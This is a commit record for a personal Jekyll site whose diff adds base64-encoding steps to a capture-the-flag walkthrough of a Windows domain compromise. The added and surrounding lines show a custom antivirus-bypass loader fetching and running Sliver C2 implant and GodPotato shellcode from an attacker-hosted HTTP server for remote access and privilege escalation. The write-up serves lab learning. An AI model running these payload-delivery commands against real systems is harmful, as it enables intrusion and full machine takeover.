

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-city.md, in a window 1280 px wide and 900 px high, scrolled down 30348 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add base64 encoding steps for implant.enc and gp.enc payloads
Document the base64 -w0 encoding step used to prepare shellcode
for remote delivery via the runner's URL loading capability.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-city.md
+++ b/_ctf/hacksmarter-city.md
@@ -967,7 +967,11 @@ city\web_admin
 
 ## 9.2 Sliver C2 Session as sam.brooks
 
-A custom Go-based AV bypass loader (`runner.exe`) was compiled and uploaded to obtain a Sliver C2 session via mTLS. This provides a more flexible shell than Evil-WinRM for further exploitation.
+A custom Go-based AV bypass loader (`runner.exe`) was compiled and uploaded to obtain a Sliver C2 session via mTLS. This provides a more flexible shell than Evil-WinRM for further exploitation. The Sliver mTLS implant shellcode was base64-encoded for delivery via the runner's remote loading capability:
+
+```bash
+base64 -w0 implant.bin > implant.enc
+```
 
 ```
 *Evil-WinRM* PS C:\Users\sam.brooks\Documents> upload runner.exe
@@ -1094,7 +1098,13 @@ GodPotato was used to abuse `SeImpersonatePrivilege` and execute the Sliver impl
 donut -i /workspace/gp.exe -a 2 -b 2 -p '-cmd "c:\tools\runner.exe -remote http://10.200.38.219:8000/implant.enc"' -o /workspace/gp.bin
 ```
 
-The shellcode was loaded and executed on the target:
+The resulting shellcode was then base64-encoded for remote delivery:
+
+```bash
+base64 -w0 gp.bin > gp.enc
+```
+
+The encoded payload was hosted and executed on the target:
 
 ```
 PS C:\tools> .\runner.exe -remote http://10.200.38.219:8000/gp.enc
````
